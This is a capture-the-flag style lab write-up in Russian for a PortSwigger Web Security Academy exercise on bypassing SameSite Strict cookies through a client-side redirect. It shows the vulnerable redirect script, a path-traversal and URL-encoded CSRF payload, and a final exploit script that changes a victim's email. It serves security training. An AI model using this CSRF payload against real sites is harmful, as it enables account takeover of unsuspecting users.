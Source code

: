 # SameSite Strict bypass via client-side redirect
PRACTITIONER

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: wiener:peter

## Решение
После оставления комментария пользователь попадает на страницу /post/comment/confirmation?postId=5, на которой есть скрипт, выполняющий клиентское перенаправление:
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
Он вызывается из тэга script:
```
<script>redirectOnConfirmation('/post');</script>
```
В эксплойте буду использовать тот факт, что значение параметра `postId` добавляется к пути, по которому осуществляется переход. Чтобы попасть с `/post` на `/my-account`, добавлю ".." к началу пути:

`/post/comment/confirmation?postId=../my-account/change-email?email=wiener123@normal-user.net&submit=1&_method=POST`

Закодирую параметры email, submit и _method URL-кодированием, чтобы они не обрабатывались как параметры URL /post/comment/confirmation:

`/post/comment/confirmation?postId=../my-account/change-email%3f%65%6d%61%69%6c%3d%77%69%65%6e%65%72%31%32%33%40%6e%6f%72%6d%61%6c%2d%75%73%65%72%2e%6e%65%74%26%73%75%62%6d%69%74%3d%31%26%5f%6d%65%74%68%6f%64%3d%50%4f%53%54`

Итого:
```
<script>
document.location = "https://0aa6006b0496a534811121fa00e200b0.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email%3f%65%6d%61%69%6c%3d%77%69%65%6e%65%72%31%32%33%40%6e%6f%72%6d%61%6c%2d%75%73%65%72%2e%6e%65%74%26%73%75%62%6d%69%74%3d%31%26%5f%6d%65%74%68%6f%64%3d%50%4f%53%54";
</script>
```
Задание выполнено.
